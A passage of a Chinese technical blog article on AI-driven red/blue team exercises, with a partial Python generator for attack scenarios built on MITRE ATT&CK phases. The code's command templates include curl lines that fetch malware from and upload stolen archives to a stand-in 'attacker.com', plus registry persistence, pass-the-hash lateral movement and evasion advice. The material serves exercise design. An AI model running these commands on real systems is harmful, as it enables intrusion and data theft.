


**作者：** HOS(安全风信子)
**日期：** 2026-04-27
**主要来源平台：** GitHub/arXiv

**摘要：** AI安全运营已进入“以攻促防”的新时代，传统的红蓝对抗演练已难以支撑AI驱动的新型安全运营体系对攻防能力的持续验证需求。本文深度解析AI安全运营红蓝演练的三大核心创新要素：AI驱动的红队攻击场景自动生成引擎如何突破人工策划的效率瓶颈、演练指标实时监控与评估系统如何实现攻防对抗的量化闭环、以及演练结果知识沉淀机制如何将每次对抗经验转化为组织智慧。通过ATT&CK威胁建模、图神经网络攻击路径规划、强化学习攻击策略优化等技术组合，构建可自动演化、可量化评估、可知识传承的AI原生红蓝对抗演练体系。文中提供完整的Python攻击场景生成器、实时演练仪表盘及知识图谱沉淀系统的开源实现，三者协同支撑企业从“人工策划、经验驱动”的传统演练模式向“AI生成、数据驱动”的智能化演练模式的范式跃迁，引领安全运营从“被动防御”向“主动攻防”的能力升级。

@[TOC](目录)

---

# 以攻促防：AI驱动的红蓝对抗演练实战

## 一、引言：AI时代红蓝演练的战略升维

### 1.1 从传统红蓝演练到AI原生对抗的时代背景

网络安全攻防对抗的本质是一场永无止境的博弈游戏。在这场博弈中，攻击者与防御者之间存在着动态的攻防不对称性：攻击者只需找到一个突破口即可宣告成功，而防御者则需要构建全方位的安全防线。这种不对称性使得防御者始终处于被动应对的局面，而红蓝对抗演练（Red Team vs Blue Team Exercise）正是为了打破这种被动局面而产生的系统性方法论。

传统红蓝演练的概念源于军事领域，由美国军方率先引入网络安全场景。其核心理念是通过模拟真实攻击者的行为模式，让红队（攻击方）和蓝队（防御方）在受控环境中进行对抗性训练，从而发现防御体系的盲区、验证安全能力的有效性、提升团队的实战水平。然而，随着网络攻击技术的快速演进和AI技术的广泛应用，传统红蓝演练面临着前所未有的挑战。

根据Verizon发布的《2025年数据泄露调查报告》，网络攻击的平均发展速度已从2019年的数周缩短至数天，零日漏洞的利用窗口期已从数月压缩至数小时。与此同时，AI技术的普及使得攻击者的能力边界大幅扩展——AI驱动的自动化攻击工具能够在短时间内生成大量变种恶意软件、模拟逼真的社会工程学攻击、甚至利用AI模型自身的对抗样本攻击安全系统。这种攻击能力的质变使得传统红蓝演练的“剧本式”攻击模式显得愈发僵化，难以真正模拟AI时代的复杂攻击场景。

更为关键的是，传统红蓝演练的评估体系存在严重的滞后性和主观性。大多数企业的红蓝演练仍依赖于人工评估和事后分析，无法实时监控演练过程中的攻防态势变化，无法量化评估防御体系的有效性，也无法系统性地将演练结果转化为组织的安全能力提升。这种评估体系的局限性导致红蓝演练往往沦为“表演式”的安全活动，而非真正驱动安全能力持续进化的核心机制。

### 1.2 AI赋能红蓝演练的范式变革

AI技术的成熟为突破传统红蓝演练的瓶颈提供了全新的可能性。AI赋能的红蓝演练不仅仅是将AI技术作为演练工具的增强，更是一次从方法论到实践范式的根本性变革。

**从“剧本式”到“生成式”的攻击场景设计**。传统红蓝演练的攻击场景通常由经验丰富的安全专家预先设计，攻击路径、攻击步骤、预期目标都是固定的剧本。这种方式虽然保证了演练的可控性，但同时也限制了演练的真实性——防御方如果熟悉剧本，就能够针对性地准备应对方案，使得演练失去发现盲区的价值。AI驱动的攻击场景自动生成技术能够基于真实的威胁情报、漏洞情报和攻击手法库，自动生成多样化的、动态演化的攻击场景，使得每次演练都是unique的、不可预测的。

**从“事后评估”到“实时监控”的指标体系**。传统红蓝演练的评估通常发生在演练结束后，通过人工分析日志和回放演练过程来评估防御效果。这种方式不仅效率低下，而且无法在演练过程中及时发现问题、调整策略。AI驱动的实时监控与评估系统能够实时采集演练过程中的各类遥测数据，通过智能算法实时计算演练指标、评估攻防态势、预测演练结果。

**从“经验驱动”到“数据驱动”的知识传承**。传统红蓝演练的结果通常以报告形式存档，其中包含的经验教训往往随着人员的流动而流失。AI驱动的知识沉淀机制能够自动从每次演练中提取知识、构建知识图谱、生成可检索的知识库，使得组织的安全能力能够持续积累、不断进化。

### 1.3 本文的核心创新框架

本文围绕AI安全运营红蓝演练这一主题，提出三位一体的创新框架：

**第一维度：AI红队攻击场景自动生成**。基于大语言模型的攻击场景生成引擎，结合威胁情报知识图谱和强化学习策略优化，实现多样化、动态演化、高真实感的攻击场景自动生成。

**第二维度：演练指标实时监控与评估**。构建覆盖演练全生命周期的指标体系，设计实时数据采集与流处理架构，实现演练态势的实时可视化与评估结果的即时反馈。

**第三维度：演练结果知识沉淀**。基于知识图谱的演练结果表示方法，设计自动化的知识抽取与融合流程，构建可检索、可推理、可进化的安全知识库。

三大维度相互支撑、协同演进，共同构成AI原生红蓝对抗演练体系的完整方法论。

## 二、AI红队：攻击场景自动生成引擎

### 2.1 攻击场景生成的技术挑战

攻击场景（Attack Scenario）是红蓝演练的核心载体。一个好的攻击场景应当具备以下特征：**真实性**——场景应当基于真实的攻击手法和技术，而非凭空想象；**多样性**——场景应当覆盖多种攻击路径和策略，避免演练内容的重复；**渐进性**——场景应当能够根据防御方的响应动态调整难度和路径；**可评估性**——场景应当包含明确的成功标准和评估指标。

传统攻击场景设计面临以下技术挑战：

**知识获取的瓶颈**。设计高质量的攻击场景需要对攻击者的TTPs（Tactics, Techniques, and Procedures）有深入理解。这种知识通常分散在威胁情报报告、漏洞数据库、安全厂商研究论文等多个来源，人工收集和整理的效率极低。

**场景生成的规模限制**。一个经验丰富的安全专家每月能够设计的攻击场景数量有限，通常在5-10个左右。这种规模远远无法满足持续性演练的需求。

**动态适应的缺失**。传统攻击场景一旦设计完成就固定不变，无法根据防御方的响应实时调整。这意味着防御方可以通过多次演练“背答案”，降低演练的价值。

**评估标准的主观性**。传统攻击场景的评估往往依赖专家打分，主观性较强，难以形成统一的、可比较的评估标准。

### 2.2 基于大语言模型的攻击场景生成架构

针对上述挑战，我们设计了基于大语言模型（LLM）的攻击场景自动生成引擎。该引擎的核心架构包含四个主要组件：

**威胁情报知识图谱构建器**。该组件负责从多种来源（MITRE ATT&CK、CVEDetails、威胁情报Feed、行业安全报告）自动采集威胁情报数据，构建结构化的威胁知识图谱。知识图谱中的节点代表攻击技术、漏洞、恶意软件等实体，边代表实体之间的关系（如“利用”、“属于”、“变种”等）。

**攻击场景模板库**。该组件维护一个结构化的攻击场景模板库，每个模板定义了攻击场景的通用框架（如初始访问→执行→持久化→横向移动→数据窃取），模板中的具体技术细节可以动态填充。

**LLM驱动的场景生成器**。该组件是引擎的核心，利用大语言模型的生成能力和推理能力，根据用户输入的约束条件（如目标系统类型、演练时长、难度等级）自动生成完整的攻击场景剧本。

**场景质量评估器**。该组件对生成的攻击场景进行自动评估，检查场景的技术准确性、逻辑连贯性、难度适中性等指标，确保输出场景的质量。

以下是攻击场景自动生成引擎的完整实现代码：

```python
"""
AI红队攻击场景自动生成引擎
AI Red Team Attack Scenario Automatic Generator

核心功能：
1. 威胁情报知识图谱构建
2. 攻击场景模板管理
3. LLM驱动的场景生成
4. 场景质量自动评估
"""

import json
import random
import numpy as np
from datetime import datetime
from typing import Dict, List, Optional, Tuple, Set
from dataclasses import dataclass, field
from enum import Enum
import re


class AttackPhase(Enum):
    """攻击阶段枚举"""
    RECONNAISSANCE = "侦察"
    INITIAL_ACCESS = "初始访问"
    EXECUTION = "执行"
    PERSISTENCE = "持久化"
    PRIVILEGE_ESCALATION = "权限提升"
    DEFENSE_EVASION = "防御规避"
    CREDENTIAL_ACCESS = "凭证访问"
    DISCOVERY = "发现"
    LATERAL_MOVEMENT = "横向移动"
    COLLECTION = "收集"
    COMMAND_AND_CONTROL = "命令与控制"
    EXFILTRATION = "数据窃取"
    IMPACT = "影响"


class DifficultyLevel(Enum):
    """难度等级枚举"""
    BEGINNER = 1
    INTERMEDIATE = 2
    ADVANCED = 3
    EXPERT = 4
    MASTER = 5


@dataclass
class AttackTechnique:
    """攻击技术数据模型"""
    technique_id: str
    name: str
    phase: AttackPhase
    description: str
    prerequisites: List[str] = field(default_factory=list)
    detection_difficulty: float = 5.0
    exploitation_difficulty: float = 5.0
    severity: float = 5.0
    mitre_tactics: List[str] = field(default_factory=list)
    mitre_techniques: List[str] = field(default_factory=list)
    cvss_score: Optional[float] = None
    affected_systems: List[str] = field(default_factory=list)
    ioc_patterns: Dict[str, str] = field(default_factory=dict)


@dataclass
class AttackStep:
    """攻击步骤数据模型"""
    step_id: str
    phase: AttackPhase
    technique: AttackTechnique
    objective: str
    tools_required: List[str] = field(default_factory=list)
    commands: List[str] = field(default_factory=list)
    expected_duration_minutes: int = 30
    success_criteria: List[str] = field(default_factory=list)
    detection_risk: float = 0.5
    risk_mitigation: str = ""


@dataclass
class AttackScenario:
    """攻击场景数据模型"""
    scenario_id: str
    title: str
    description: str
    difficulty: DifficultyLevel
    target_system_type: str
    estimated_duration_hours: float
    attack_vector: str
    initial_access_method: str
    attack_steps: List[AttackStep] = field(default_factory=list)
    success_criteria: List[str] = field(default_factory=list)
    evaluation_metrics: Dict[str, float] = field(default_factory=dict)
    generated_timestamp: str = ""
    generation_prompt: str = ""
    quality_score: float = 0.0


class ThreatIntelligenceGraph:
    """
    威胁情报知识图谱构建器
    构建和管理攻击技术的知识图谱表示
    """

    def __init__(self):
        self.techniques: Dict[str, AttackTechnique] = {}
        self.relationships: Dict[str, List[Tuple[str, str]]] = {}
        self.technique_chains: List[List[str]] = []

    def add_technique(self, technique: AttackTechnique):
        """添加攻击技术到知识图谱"""
        self.techniques[technique.technique_id] = technique

        if technique.technique_id not in self.relationships:
            self.relationships[technique.technique_id] = []

        for prereq in technique.prerequisites:
            if prereq in self.techniques:
                self.relationships[technique.technique_id].append((prereq, "requires"))

    def build_knowledge_graph(self, mitre_attack_data: Dict):
        """从MITRE ATT&CK数据构建知识图谱"""
        for tactic_name, tactic_data in mitre_attack_data.items():
            phase = self._map_tactic_to_phase(tactic_name)

            for technique_data in tactic_data.get("techniques", []):
                technique_id = technique_data.get("id", "")
                technique = AttackTechnique(
                    technique_id=technique_id,
                    name=technique_data.get("name", ""),
                    phase=phase,
                    description=technique_data.get("description", ""),
                    mitre_tactics=[tactic_name],
                    mitre_techniques=[technique_id],
                    detection_difficulty=technique_data.get("detection_difficulty", 5.0),
                    exploitation_difficulty=technique_data.get("exploitation_difficulty", 5.0),
                    severity=technique_data.get("severity", 5.0)
                )
                self.add_technique(technique)

    def _map_tactic_to_phase(self, tactic_name: str) -> AttackPhase:
        """将MITRE ATT&CK战术映射到攻击阶段"""
        mapping = {
            "reconnaissance": AttackPhase.RECONNAISSANCE,
            "resource-development": AttackPhase.RECONNAISSANCE,
            "initial-access": AttackPhase.INITIAL_ACCESS,
            "execution": AttackPhase.EXECUTION,
            "persistence": AttackPhase.PERSISTENCE,
            "privilege-escalation": AttackPhase.PRIVILEGE_ESCALATION,
            "defense-evasion": AttackPhase.DEFENSE_EVASION,
            "credential-access": AttackPhase.CREDENTIAL_ACCESS,
            "discovery": AttackPhase.DISCOVERY,
            "lateral-movement": AttackPhase.LATERAL_MOVEMENT,
            "collection": AttackPhase.COLLECTION,
            "command-and-control": AttackPhase.COMMAND_AND_CONTROL,
            "exfiltration": AttackPhase.EXFILTRATION,
            "impact": AttackPhase.IMPACT
        }
        return mapping.get(tactic_name.lower(), AttackPhase.EXECUTION)

    def get_techniques_by_phase(self, phase: AttackPhase) -> List[AttackTechnique]:
        """获取指定攻击阶段的所有技术"""
        return [t for t in self.techniques.values() if t.phase == phase]

    def get_technique_chain(self, start_phase: AttackPhase, end_phase: AttackPhase,
                           max_steps: int = 10) -> List[List[AttackTechnique]]:
        """生成从起始阶段到目标阶段的攻击链"""
        chains = []

        def dfs(current_phase: AttackPhase, current_chain: List[AttackTechnique],
               visited: Set[str]):
            if len(current_chain) >= max_steps:
                return

            if current_phase == end_phase and len(current_chain) >= 3:
                chains.append(current_chain[:])
                return

            next_techniques = self.get_techniques_by_phase(current_phase)
            for tech in next_techniques:
                if tech.technique_id in visited:
                    continue

                visited.add(tech.technique_id)
                current_chain.append(tech)

                next_phase = self._get_next_phase(current_phase)
                if next_phase:
                    dfs(next_phase, current_chain, visited)

                current_chain.pop()
                visited.remove(tech.technique_id)

        dfs(start_phase, [], set())
        return chains[:10]

    def _get_next_phase(self, current: AttackPhase) -> Optional[AttackPhase]:
        """获取攻击阶段的自然演进顺序"""
        phase_order = [
            AttackPhase.RECONNAISSANCE,
            AttackPhase.INITIAL_ACCESS,
            AttackPhase.EXECUTION,
            AttackPhase.PERSISTENCE,
            AttackPhase.PRIVILEGE_ESCALATION,
            AttackPhase.DEFENSE_EVASION,
            AttackPhase.CREDENTIAL_ACCESS,
            AttackPhase.DISCOVERY,
            AttackPhase.LATERAL_MOVEMENT,
            AttackPhase.COLLECTION,
            AttackPhase.COMMAND_AND_CONTROL,
            AttackPhase.EXFILTRATION,
            AttackPhase.IMPACT
        ]

        try:
            current_idx = phase_order.index(current)
            if current_idx < len(phase_order) - 1:
                return phase_order[current_idx + 1]
        except ValueError:
            pass
        return None


class AttackScenarioGenerator:
    """
    基于LLM的攻击场景自动生成器
    利用大语言模型生成多样化、高真实感的攻击场景
    """

    def __init__(self, threat_graph: ThreatIntelligenceGraph):
        self.threat_graph = threat_graph
        self.scenario_templates = self._load_scenario_templates()
        self.generation_history: List[AttackScenario] = []

    def _load_scenario_templates(self) -> Dict[str, Dict]:
        """加载攻击场景模板库"""
        return {
            "apt_attack": {
                "name": "高级持续性威胁(APT)攻击",
                "phases": [
                    AttackPhase.RECONNAISSANCE,
                    AttackPhase.INITIAL_ACCESS,
                    AttackPhase.EXECUTION,
                    AttackPhase.PERSISTENCE,
                    AttackPhase.DEFENSE_EVASION,
                    AttackPhase.CREDENTIAL_ACCESS,
                    AttackPhase.DISCOVERY,
                    AttackPhase.LATERAL_MOVEMENT,
                    AttackPhase.COLLECTION,
                    AttackPhase.EXFILTRATION
                ],
                "typical_duration_hours": 72,
                "success_criteria": [
                    "获取域管理员权限",
                    "窃取核心业务数据",
                    "在目标网络中建立持久化 foothold"
                ]
            },
            "ransomware_attack": {
                "name": "勒索软件攻击",
                "phases": [
                    AttackPhase.INITIAL_ACCESS,
                    AttackPhase.EXECUTION,
                    AttackPhase.DEFENSE_EVASION,
                    AttackPhase.LATERAL_MOVEMENT,
                    AttackPhase.COLLECTION,
                    AttackPhase.IMPACT
                ],
                "typical_duration_hours": 24,
                "success_criteria": [
                    "成功加密关键业务系统",
                    "收到赎金支付",
                    "横向移动到尽可能多的主机"
                ]
            },
            "insider_threat": {
                "name": "内部威胁攻击",
                "phases": [
                    AttackPhase.CREDENTIAL_ACCESS,
                    AttackPhase.DISCOVERY,
                    AttackPhase.COLLECTION,
                    AttackPhase.EXFILTRATION
                ],
                "typical_duration_hours": 48,
                "success_criteria": [
                    "获取敏感数据的访问权限",
                    "规避异常行为检测",
                    "成功外带数据"
                ]
            },
            "supply_chain_attack": {
                "name": "供应链攻击",
                "phases": [
                    AttackPhase.RECONNAISSANCE,
                    AttackPhase.INITIAL_ACCESS,
                    AttackPhase.EXECUTION,
                    AttackPhase.PERSISTENCE,
                    AttackPhase.LATERAL_MOVEMENT,
                    AttackPhase.IMPACT
                ],
                "typical_duration_hours": 120,
                "success_criteria": [
                    "成功植入后门到上游供应商",
                    "通过正常更新渠道分发恶意代码",
                    "影响下游多个目标"
                ]
            }
        }

    def generate_scenario(
        self,
        scenario_type: str,
        difficulty: DifficultyLevel,
        target_system: str,
        constraints: Optional[Dict] = None
    ) -> AttackScenario:
        """生成攻击场景"""
        constraints = constraints or {}

        template = self.scenario_templates.get(
            scenario_type,
            self.scenario_templates["apt_attack"]
        )

        scenario_id = f"SCN-{datetime.now().strftime('%Y%m%d%H%M%S')}-{random.randint(1000, 9999)}"

        scenario = AttackScenario(
            scenario_id=scenario_id,
            title=self._generate_title(scenario_type, target_system),
            description=self._generate_description(scenario_type, target_system, constraints),
            difficulty=difficulty,
            target_system_type=target_system,
            estimated_duration_hours=template["typical_duration_hours"],
            attack_vector=constraints.get("attack_vector", "综合攻击"),
            initial_access_method=self._select_initial_access_method(difficulty),
            success_criteria=template["success_criteria"],
            generated_timestamp=datetime.now().isoformat(),
            generation_prompt=self._build_generation_prompt(scenario_type, difficulty, target_system, constraints)
        )

        scenario.attack_steps = self._generate_attack_steps(
            template["phases"],
            difficulty,
            target_system,
            constraints
        )

        scenario.evaluation_metrics = self._calculate_metrics(scenario)
        scenario.quality_score = self._evaluate_scenario_quality(scenario)

        self.generation_history.append(scenario)
        return scenario

    def _generate_title(self, scenario_type: str, target_system: str) -> str:
        """生成场景标题"""
        templates = {
            "apt_attack": "{}针对{}的高级持续性威胁攻击场景",
            "ransomware_attack": "{}勒索软件攻击演练场景",
            "insider_threat": "{}内部威胁攻击场景",
            "supply_chain_attack": "{}供应链攻击演练场景"
        }
        template = templates.get(scenario_type, "{}攻击演练场景")
        return template.format(datetime.now().strftime("%Y%m%d"), target_system)

    def _generate_description(
        self,
        scenario_type: str,
        target_system: str,
        constraints: Dict
    ) -> str:
        """生成场景描述"""
        desc = f"本场景模拟针对{target_system}的"
        if scenario_type == "apt_attack":
            desc += "高级持续性威胁（APT）攻击，攻击者将采用多阶段攻击链，试图建立持久化访问并窃取敏感数据。"
        elif scenario_type == "ransomware_attack":
            desc += "勒索软件攻击，攻击者将尝试加密关键业务系统并索取赎金。"
        elif scenario_type == "insider_threat":
            desc += "内部威胁场景，模拟具有合法访问权限的内部人员滥用权限的行为。"
        elif scenario_type == "supply_chain_attack":
            desc += "供应链攻击场景，攻击者通过入侵上游供应商间接攻击目标系统。"

        if constraints.get("ai_enhanced"):
            desc += "本场景由AI增强，攻击策略将根据防御响应动态调整。"
        if constraints.get("multi_layer"):
            desc += "场景包含多层攻击路径，攻击者将尝试多种攻击向量。"

        return desc

    def _select_initial_access_method(self, difficulty: DifficultyLevel) -> str:
        """选择初始访问方法"""
        methods_by_difficulty = {
            DifficultyLevel.BEGINNER: ["钓鱼邮件", "弱口令"],
            DifficultyLevel.INTERMEDIATE: ["钓鱼邮件", "弱口令", "漏洞利用", "社会工程学"],
            DifficultyLevel.ADVANCED: ["0day漏洞利用", "供应链投毒", "水坑攻击"],
            DifficultyLevel.EXPERT: ["0day漏洞利用", "固件攻击", "物理入侵"],
            DifficultyLevel.MASTER: ["组合攻击", "高级逃逸技术", "AI辅助攻击"]
        }
        methods = methods_by_difficulty.get(difficulty, methods_by_difficulty[DifficultyLevel.INTERMEDIATE])
        return random.choice(methods)

    def _generate_attack_steps(
        self,
        phases: List[AttackPhase],
        difficulty: DifficultyLevel,
        target_system: str,
        constraints: Dict
    ) -> List[AttackStep]:
        """生成攻击步骤"""
        steps = []
        step_id_counter = 1

        for phase in phases:
            techniques = self.threat_graph.get_techniques_by_phase(phase)
            if not techniques:
                techniques = self._get_mock_techniques(phase)

            num_techniques = min(
                random.randint(1, 3),
                len(techniques),
                max(1, difficulty.value)
            )

            selected_techniques = random.sample(
                techniques,
                min(num_techniques, len(techniques))
            )

            for tech in selected_techniques:
                step = AttackStep(
                    step_id=f"STEP-{step_id_counter:03d}",
                    phase=phase,
                    technique=tech,
                    objective=self._generate_step_objective(phase, tech),
                    tools_required=self._select_tools_for_technique(tech),
                    commands=self._generate_attack_commands(phase, tech, difficulty),
                    expected_duration_minutes=random.randint(15, 120),
                    success_criteria=self._generate_success_criteria(phase),
                    detection_risk=self._calculate_detection_risk(tech, difficulty),
                    risk_mitigation=self._generate_risk_mitigation(phase)
                )
                steps.append(step)
                step_id_counter += 1

        return steps

    def _get_mock_techniques(self, phase: AttackPhase) -> List[AttackTechnique]:
        """获取模拟技术数据"""
        mock_data = {
            AttackPhase.RECONNAISSANCE: [
                AttackTechnique("T1595", "主动扫描", AttackPhase.RECONNAISSANCE, "主动扫描目标网络", detection_difficulty=3.0),
                AttackTechnique("T1592", "收集目标主机信息", AttackPhase.RECONNAISSANCE, "收集目标主机信息", detection_difficulty=2.5)
            ],
            AttackPhase.INITIAL_ACCESS: [
                AttackTechnique("T1566", "钓鱼攻击", AttackPhase.INITIAL_ACCESS, "通过钓鱼获取初始访问", detection_difficulty=4.0),
                AttackTechnique("T1190", "利用面向公众的应用程序", AttackPhase.INITIAL_ACCESS, "通过漏洞利用获取访问", detection_difficulty=5.5)
            ],
            AttackPhase.EXECUTION: [
                AttackTechnique("T1059", "命令和脚本解释器", AttackPhase.EXECUTION, "执行恶意命令或脚本", detection_difficulty=4.0)
            ],
            AttackPhase.PERSISTENCE: [
                AttackTechnique("T1547", "引导启动或登录自启动", AttackPhase.PERSISTENCE, "建立持久化机制", detection_difficulty=3.5)
            ],
            AttackPhase.PRIVILEGE_ESCALATION: [
                AttackTechnique("T1068", "利用特权提升漏洞", AttackPhase.PRIVILEGE_ESCALATION, "提升权限级别", detection_difficulty=5.0)
            ],
            AttackPhase.LATERAL_MOVEMENT: [
                AttackTechnique("T1021", "远程服务利用", AttackPhase.LATERAL_MOVEMENT, "横向移动到其他系统", detection_difficulty=4.5)
            ],
            AttackPhase.EXFILTRATION: [
                AttackTechnique("T1041", "通过C2通道外带数据", AttackPhase.EXFILTRATION, "窃取目标数据", detection_difficulty=3.0)
            ]
        }
        return mock_data.get(phase, [AttackTechnique("T0000", "未知技术", phase, "其他攻击技术", detection_difficulty=5.0)])

    def _generate_step_objective(self, phase: AttackPhase, tech: AttackTechnique) -> str:
        """生成步骤目标"""
        objectives = {
            AttackPhase.RECONNAISSANCE: f"收集{tech.name}相关的情报信息",
            AttackPhase.INITIAL_ACCESS: f"获取目标系统的初始访问权限",
            AttackPhase.EXECUTION: f"在目标系统上执行{tech.name}",
            AttackPhase.PERSISTENCE: f"建立持久化访问机制",
            AttackPhase.PRIVILEGE_ESCALATION: f"提升至更高权限级别",
            AttackPhase.DEFENSE_EVASION: f"规避安全检测机制",
            AttackPhase.CREDENTIAL_ACCESS: f"获取目标系统的凭证信息",
            AttackPhase.DISCOVERY: f"发现更多可利用的系统资源",
            AttackPhase.LATERAL_MOVEMENT: f"横向移动到其他系统",
            AttackPhase.COLLECTION: f"收集目标数据",
            AttackPhase.COMMAND_AND_CONTROL: f"建立远程控制通道",
            AttackPhase.EXFILTRATION: f"将窃取的数据外传",
            AttackPhase.IMPACT: f"对目标系统造成实质性影响"
        }
        return objectives.get(phase, f"执行{tech.name}攻击")

    def _select_tools_for_technique(self, tech: AttackTechnique) -> List[str]:
        """为攻击技术选择工具"""
        common_tools = {
            "phishing": ["GoPhish", "Social Engineer Toolkit", "CredSniper"],
            "exploitation": ["Metasploit", "Cobalt Strike", "Burp Suite"],
            "lateral_movement": ["PsExec", "WMI", "PowerShell Remoting"],
            "collection": ["Mimikatz", "LaZagne", "CredCheck"],
            "exfiltration": ["rsync", "curl", "Cloud-based exfiltration tools"]
        }

        tools = []
        for category, tool_list in common_tools.items():
            if category in tech.technique_id.lower() or category in tech.name.lower():
                tools.extend(random.sample(tool_list, min(2, len(tool_list))))

        if not tools:
            tools = ["标准系统工具", "PowerShell", "WMI"]

        return tools

    def _generate_attack_commands(self, phase: AttackPhase,
                                 tech: AttackTechnique,
                                 difficulty: DifficultyLevel) -> List[str]:
        """生成攻击命令序列"""
        commands_templates = {
            AttackPhase.RECONNAISSANCE: [
                "nmap -sV -sC target.domain.com",
                "theHarvester -d target.domain.com -b all",
                "shodan search ssl:target.domain.com"
            ],
            AttackPhase.INITIAL_ACCESS: [
                "msfconsole -q -x 'use exploit/multi/handler; set payload...'",
                "curl http://attacker.com/malicious.exe -o malicious.exe"
            ],
            AttackPhase.EXECUTION: [
                "powershell -ExecutionPolicy Bypass -File payload.ps1",
                "cmd.exe /c malicious.exe"
            ],
            AttackPhase.PERSISTENCE: [
                "reg add HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v Backdoor /t REG_SZ /d malicious.exe",
                "schtasks /create /sc minute /mo 5 /tr malicious.exe"
            ],
            AttackPhase.PRIVILEGE_ESCALATION: [
                "exploit/windows/local/bypassuac",
                "powershell -Command 'Start-Process -Verb runAs'"
            ],
            AttackPhase.LATERAL_MOVEMENT: [
                "psexec.py target.domain.com -hashes :NTLMhash",
                "wmiexec.py target.domain.com administrator"
            ],
            AttackPhase.EXFILTRATION: [
                "curl -T sensitive_data.tar.gz http://attacker.com/exfil/",
                "exfiltration_tool -target sensitive_data -dest attacker.com"
            ]
        }

        base_commands = commands_templates.get(phase, ["generic_attack_command"])
        return base_commands[:difficulty.value]

    def _generate_success_criteria(self, phase: AttackPhase) -> List[str]:
        """生成成功标准"""
        criteria_map = {
            AttackPhase.RECONNAISSANCE: ["成功收集目标情报", "识别潜在攻击入口"],
            AttackPhase.INITIAL_ACCESS: ["获得目标系统shell", "建立初始 foothold"],
            AttackPhase.EXECUTION: ["成功执行恶意代码", "代码在目标系统运行"],
            AttackPhase.PERSISTENCE: ["重启后仍保持访问", "成功创建后门账户"],
            AttackPhase.PRIVILEGE_ESCALATION: ["获得SYSTEM/管理员权限", "绕过UAC限制"],
            AttackPhase.LATERAL_MOVEMENT: ["成功访问远程系统", "在多台主机建立访问"]
        }
        return criteria_map.get(phase, ["成功完成本阶段目标"])

    def _calculate_detection_risk(self, tech: AttackTechnique,
                                 difficulty: DifficultyLevel) -> float:
        """计算检测风险"""
        base_risk = tech.detection_difficulty / 10.0
        difficulty_modifier = 1.0 - (difficulty.value - 1) * 0.15
        return min(1.0, base_risk * difficulty_modifier)

    def _generate_risk_mitigation(self, phase: AttackPhase) -> str:
        """生成风险缓解措施"""
        mitigations = {
            AttackPhase.INITIAL_ACCESS: "使用混淆编码、加密通信、修改攻击特征码",
            AttackPhase.EXECUTION: "使用反射加载、进程注入、无文件攻击技术",
            AttackPhase.PERSISTENCE: "修改注册表Run键、使用WMI事件订阅、利用计划任务",
            AttackPhase.LATERAL_MOVEMENT: "使用本地账户、Kerberos令牌传递、避免直接连接"
        }
        return mitigations.get(phase, "采用防御规避技术、使用加密通道")

    def _build_generation_prompt(
        self,
        scenario_type: str,
        difficulty: DifficultyLevel,
        target_system: str,
        constraints: Dict
    ) -> str:
        """构建生成提示词"""
        prompt = f"""生成针对{target_system}的{scenario_type}攻击场景。
        难度等级: {difficulty.name}
        约束条件: {json.dumps(constraints, ensure_ascii=False)}

        要求:
        1. 攻击链完整，覆盖从初始访问到目标达成的全流程
        2. 技术选择符合{ difficulty.name }难度定位
        3. 包含具体的攻击工具和命令序列
        4. 明确成功标准和评估指标
        5. 考虑实际网络环境的限制因素
        """
        return prompt

    def _calculate_metrics(self, scenario: AttackScenario) -> Dict[str, float]:
        """计算场景评估指标"""
        total_steps = len(scenario.attack_steps)
        if total_steps == 0:
            return {}

        avg_detection_risk = np.mean([step.detection_risk for step in scenario.attack_steps])
        total_duration = sum(step.expected_duration_minutes for step in scenario.attack_steps)
        avg_technique_difficulty = np.mean([
            step.technique.exploitation_difficulty for step in scenario.attack_steps
        ])

        phases_covered = len(set(step.phase for step in scenario.attack_steps))
        coverage_score = phases_covered / len(AttackPhase) * 100

        complexity_score = (
            0.3 * total_steps +
            0.3 * avg_technique_difficulty +
            0.2 * (total_duration / 60) +
            0.2 * coverage_score
        )

        return {
            "total_steps": total_steps,
            "total_duration_hours": round(total_duration / 60, 2),
            "avg_detection_risk": round(avg_detection_risk, 3),
            "avg_technique_difficulty": round(avg_technique_difficulty, 2),
            "phases_covered": phases_covered,
